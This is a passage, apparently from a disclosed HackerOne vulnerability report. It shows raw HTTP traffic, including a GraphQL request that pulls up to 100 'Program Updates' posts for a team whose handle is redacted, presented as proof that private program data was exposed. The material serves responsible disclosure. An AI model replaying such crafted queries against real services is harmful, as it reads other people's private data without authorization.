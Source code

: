 ```
HTTP/1.1 200 OK
Date: Fri, 25 May 2018 14:44:40 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response."
X-Request-Id: 9c159688-f22b-4f74-89ef-73df5e85a2f3
Set-Cookie: REDACTED
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Expect-CT: enforce, max-age=86400
Content-Security-Policy: default-src 'none'; base-uri 'self'; block-all-mixed-content; child-src www.youtube-nocookie.com b5s.hackerone-ext-content.com; connect-src 'self' www.google-analytics.com errors.hackerone.net; font-src 'self'; form-action 'self'; frame-ancestors 'none'; img-src 'self' data: cover-photos.hackerone-user-content.com hackathon-photos.hackerone-user-content.com profile-photos.hackerone-user-content.com hackerone-attachments.s3.amazonaws.com; media-src 'self' hackerone-attachments.s3.amazonaws.com; script-src 'self' www.google-analytics.com; style-src 'self' 'unsafe-inline'; report-uri https://errors.hackerone.net/api/30/csp-report/?sentry_key=61c1e2f50d21487c97a071737701f598
Referrer-Policy: strict-origin-when-cross-origin
X-Content-Type-Options: nosniff
X-Download-Options: noopen
X-Frame-Options: DENY
X-Permitted-Cross-Domain-Policies: none
X-XSS-Protection: 1; mode=block
Server: cloudflare
CF-RAY: 4208c802e9c88aa3-BOM
Content-Length: 5292

████████
```

##3) Program Updates
###Request : 
```
POST /graphql HTTP/1.1
Host: hackerone.com
Connection: close
Content-Length: 496
Accept: */*
X-Auth-Token: REDACTED
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/66.0.3359.181 Safari/537.36
Origin: https://hackerone.com
Content-Type: application/json
DNT: 1
Referer: https://hackerone.com/REDACTED/updates
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: REDACTED

{"query":"query Team_posts($first_0:Int!) {\n  query {\n    id,\n    ...F0\n  }\n}\nfragment F0 on Query {\n  _teamhn8Kp:team(handle:\"█████████\") {\n    _posts3y3M77:posts(first:$first_0) {\n      total_count,\n      edges {\n        node {\n          id,\n          created_at,\n          markdown_message,\n          title\n        },\n        cursor\n      },\n      pageInfo {\n        hasNextPage,\n        hasPreviousPage\n      }\n    },\n    id\n  },\n  id\n}","variables":{"first_0":100}}
```
###Response :
```
HTTP/1.1 200 OK
Date: Fri, 25 May 2018 14:33:25 GMT
Content-Type: application/json; charset=utf-8
Connection: close
Cache-Control: private, no-cache, no-store, must-revalidate
Content-Disposition: inline; filename="response."
```